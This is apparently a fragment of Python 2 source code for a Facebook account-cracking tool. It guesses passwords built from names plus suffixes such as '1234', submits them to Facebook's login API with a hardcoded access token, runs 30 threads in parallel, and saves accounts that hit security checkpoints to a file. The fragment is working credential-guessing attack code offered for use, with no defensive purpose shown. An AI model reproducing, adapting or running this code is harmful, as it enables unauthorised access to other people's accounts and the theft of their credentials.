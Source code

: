 							cpb.append(user+pass2)
						else:
							pass3 = kn + "1234"
							data = requests.get('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=' + user + '&locale=en_US&password=' + pass3 + '&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
							q = json.loads(data.text)
							if '407' in q['error_msg']:
								print '\x1b[1;92m[Add--Email]\x1b[0m ' + user + ' | ' + pass3
								oks.append(user+pass3)
							else:
								if '405' in q["error_msg"]:
									print '[Checkpoint] ' + user + ' | ' + pass3
									cps = open("save/checkpoint.txt", "a")
									cps.write(user+"|"+pass3+"\n")
									cps.close()
									cpb.append(user+pass3)
								else:
									pass4 = kn+"12"
									data = requests.get('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=' + user + '&locale=en_US&password=' + pass4 + '&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
									q = json.loads(data.text)
									if '407' in q['error_msg']:
										print '\x1b[1;92m[Add--Email]\x1b[0m ' + user + ' | ' + pass4
										oks.append(user+pass4)
									else:
										if '405' in q["error_msg"]:
											print '[Checkpoint] ' + user + ' | ' + pass4
											cps = open("save/checkpoint.txt", "a")
											cps.write(user+"|"+pass4+"\n")
											cps.close()
											cpb.append(user+pass4)
															
		except:
			pass
		
	p = ThreadPool(30)
	p.map(main, id)
	print 50*"-"
	print '[✓] Process Has Been Completed ....'
	print "[✓] Total OK/CP : "+str(len(oks))+"/"+str(len(cpb))
	print("[✓] CP File Has Been Saved : checkpoint.txt")
	raw_input("\n[Press Enter To Go Back]")
	os.system('python2 .README.md')

if __name__ == '__main__':
	menu()

